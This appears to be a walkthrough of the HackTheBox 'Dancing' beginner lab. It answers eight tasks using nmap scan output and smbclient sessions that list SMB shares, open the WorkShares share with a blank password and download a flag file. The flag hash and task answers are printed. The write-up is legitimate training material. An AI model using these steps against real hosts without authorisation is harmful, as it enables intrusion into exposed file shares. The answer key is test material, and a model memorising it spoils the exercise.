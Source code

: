 ```yaml
---
title: "[CTF] HackTheBox - Dancing (Basics)"
date: 2024-09-14 13:00:00 -500 
categories: [CTF - HackTheBox, Dancing (Basics)]
tags: [ctf,exploit,flags,htb,hackthebox]
author: Christoph K
---
```



Tasks:

- Connect
- Task 1:  What does the 3-letter acronym SMB stand for?
- Task 2:  What port does SMB use to operate at?
- Task 3:  What is the service name for port 445 that came up in our Nmap scan?
- Task 4:  What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
- Task 5:  How many shares are there on Dancing?
- Task 6:  What is the name of the share we are able to access in the end with a blank password?
- Task 7:  What is the command we can use within the SMB shell to download the files we find?
- Task 8:  Submit root flag



### Connect

I always use `openvpn` because it is very easy to connect to the network where the target maschine is.

Just download the `.ovpn` file and type:
 
`sudo openvpn yourfile.ovpn`


**Alternative** :
Use the Pwnbox, which is a preconfigured, browser-based virtual maschine. 

### - Task 1:  What does the 3-letter acronym SMB stand for?

SMB stands for ` Server Message Block`


Answer: ` Server Message Block`



### Task 2:  What port does SMB use to operate at?

Lets use nmap again and find it out.

```bash

nmap 10.129.122.235 -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-17 16:35 CST
Nmap scan report for 10.129.122.235
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Answer: `445`



### Task 3:  What is the service name for port 445 that came up in our Nmap scan?

In our nmap scan earlier we can see `microsoft-ds` as service name.

Answer: `microsoft-ds`

### Task 4:  What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

After checking the `man smbclient` we can list with `--list ` or `-L`.
```bash
┌──(admin㉿PREDATOR-01)-[~]
└─$ smbclient -L $ip
Password for [WORKGROUP\admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
```
Answer: `-L `



### Task 5:  How many shares are there on Dancing?

There are 4 shares:
```bash
┌──(admin㉿PREDATOR-01)-[~]
└─$ smbclient -L $ip
Password for [WORKGROUP\admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
```

Anser: `4`

### Task 6:  What is the name of the share we are able to access in the end with a blank password?

The only one without a `$`sign is a custom share.

After trying to connect to the other shares, `WorkShares`didnt need a password.
```shell
┌──(admin㉿PREDATOR-01)-[~]
└─$ smbclient \\\\$ip\\WorkShares
Password for [WORKGROUP\admin]:
Try "help" to get a list of possible commands.
smb: \>
```



Answer: `WorkShares`

### Task 7:  What is the command we can use within the SMB shell to download the files we find?

With `man smbclient` we check the manual of that command.

```bash


       get <remote file name> [local file name]
           Copy the file called remote file name from the server to the machine running the client. If specified, name
           the local copy local file name. Note that all transfers in smbclient are binary. See also the lowercase
           command.
```


Seems like `get` like in ftp sessions.

Answer: `get`


### Task 8: Submit root flag

Connect to the share and search for the flag:

```bash

└─$ smbclient \\\\$ip\\WorkShares
Password for [WORKGROUP\admin]:
Try "help" to get a list of possible commands.
smb: \> get
get <filename> [localname]
smb: \> ls
  .                                   D        0  Mon Mar 29 16:22:01 2021
  ..                                  D        0  Mon Mar 29 16:22:01 2021
  Amy.J                               D        0  Mon Mar 29 17:08:24 2021
  James.P                             D        0  Thu Jun  3 16:38:03 2021

                5114111 blocks of size 4096. 1750460 blocks available
smb: \> cd .
smb: \> cd ..
smb: \> ls
  .                                   D        0  Mon Mar 29 16:22:01 2021
  ..                                  D        0  Mon Mar 29 16:22:01 2021
  Amy.J                               D        0  Mon Mar 29 17:08:24 2021
  James.P                             D        0  Thu Jun  3 16:38:03 2021
c
                5114111 blocks of size 4096. 1750460 blocks available
smb: \> cd Amy.J\
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 17:08:24 2021
  ..                                  D        0  Mon Mar 29 17:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 19:00:37 2021

                5114111 blocks of size 4096. 1750460 blocks available
smb: \Amy.J\> cd ..
smb: \> cd James.P\
ls
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 16:38:03 2021
  ..                                  D        0  Thu Jun  3 16:38:03 2021
  flag.txt                            A       32  Mon Mar 29 17:26:57 2021

                5114111 blocks of size 4096. 1750460 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \James.P\> exit

┌──(admin㉿PREDATOR-01)-[~]
└─$ ls
bruteforce.sh  Desktop    Downloads  Music     Public  script.sh  value.txt  writeup-twomillion.md
decrypt.txt    Documents  flag.txt   Pictures  rick    Templates  Videos

┌──(admin㉿PREDATOR-01)-[~]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
┌──(admin㉿PREDATOR-01)-[~]
└─$

```


Answer: `5f61c10dffbc77a704d76016a22f1664`